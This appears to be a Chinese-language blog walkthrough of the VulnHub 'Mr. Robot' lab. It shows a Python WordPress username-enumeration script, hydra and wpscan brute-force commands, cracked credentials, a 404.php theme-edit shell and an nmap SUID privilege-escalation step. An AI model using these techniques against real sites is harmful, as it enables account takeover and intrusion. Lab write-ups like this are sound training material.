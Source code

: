 ```yaml
---
layout: post
title:  "mrRoBot"
description: walkthrough
category: vulnhub
---
```

# mrRoBot

![image-20200617202409740]({{ site.url }}/assets/mrRobot.assets/image-20200617202409740.png)

![image-20200617202634944]({{ site.url }}/assets/mrRobot.assets/image-20200617202634944.png)

80

![image-20200617203152363]({{ site.url }}/assets/mrRobot.assets/image-20200617203152363.png)



443

![image-20200617203214681]({{ site.url }}/assets/mrRobot.assets/image-20200617203214681.png)





![image-20200617203329701]({{ site.url }}/assets/mrRobot.assets/image-20200617203329701.png)

![image-20200617203436652]({{ site.url }}/assets/mrRobot.assets/image-20200617203436652.png)

打开是个字典。剩下那个是key

![image-20200617203718625]({{ site.url }}/assets/mrRobot.assets/image-20200617203718625.png)

![image-20200617203846811]({{ site.url }}/assets/mrRobot.assets/image-20200617203846811.png)

![image-20200617204101932]({{ site.url }}/assets/mrRobot.assets/image-20200617204101932.png)

![image-20200617204241641]({{ site.url }}/assets/mrRobot.assets/image-20200617204241641.png)

![image-20200617204658472]({{ site.url }}/assets/mrRobot.assets/image-20200617204658472.png)



![image-20200617210402372]({{ site.url }}/assets/mrRobot.assets/image-20200617210402372.png)

```html
POST /wp-login.php HTTP/1.1
Host: 192.168.43.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.43.4/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Connection: close
Cookie: s_cc=true; s_fid=3049ECE10F0CB5E8-14747522386CD7B4; s_nr=1592440903180; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=ss&pwd=ddd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.43.4%2Fwp-admin%2F&testcookie=1
```



如果用两个字典同时暴力破解用户名和密码成本太高，参考到wordpress会回显用户名是否正确。可以写一个只暴力测试用户名的python脚本/

```bash
cat fsocity.dic > fsocity.txt
vim weblogin_username_force.py
```



```python
import requests

open_file = open('fsocity.txt', 'r')		
temp = open_file.read().splitlines()		#读字典
count = 0
for username in temp:
    payload = {'log': '{0}'.format(username), 'pwd': 'dummy'}
    headers = {'Content-Type' : 'application/x-www-form-urlencoded'}
    cookies = dict(wordpress_test_cookie='WP+Cookie+check')
    r = requests.post("http://192.168.43.4/wp-login.php", data=payload, headers=headers, cookies=cookies)		#构建包
    if "Invalid username" not in r.text:
        print username
```

![image-20200617211255118]({{ site.url }}/assets/mrRobot.assets/image-20200617211255118.png)

所以用户名是Elliot

再用这个用户名去暴力密码

```bash
sudo hydra -l elliot -P fsocity.txt 192.168.43.4 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

也可以使用wpscan

```bash
wpscan --url http://192.168.43.4 -P fsocity.txt -U elliot --force
```

![image-20200618025547073]({{ site.url }}/assets/mrRobot.assets/image-20200618025547073.png)

```bash
elliot:ER28-0652
```

![image-20200617214438033]({{ site.url }}/assets/mrRobot.assets/image-20200617214438033.png)

老套路，改404

![image-20200617214725471]({{ site.url }}/assets/mrRobot.assets/image-20200617214725471.png)

```bash
http://192.168.43.4/wp-content/themes/twentyfifteen/404.php
```

也可以读取任意不存在网页。也可以读404.php都可以获得shell

![image-20200617221145713]({{ site.url }}/assets/mrRobot.assets/image-20200617221145713.png)



![image-20200617221935707]({{ site.url }}/assets/mrRobot.assets/image-20200617221935707.png)



```bash
robot:c3fcd3d76192e4007dfb496cca67e13b
```

![image-20200617222051159]({{ site.url }}/assets/mrRobot.assets/image-20200617222051159.png)

```bash
robot：abcdefghijklmnopqrstuvwxyz
```

![image-20200617223832076]({{ site.url }}/assets/mrRobot.assets/image-20200617223832076.png)

```bash
find / -perm -4000 2>/dev/null
```

![image-20200617225339961]({{ site.url }}/assets/mrRobot.assets/image-20200617225339961.png)

```
nmap --interactive
```

![image-20200617225715864]({{ site.url }}/assets/mrRobot.assets/image-20200617225715864.png)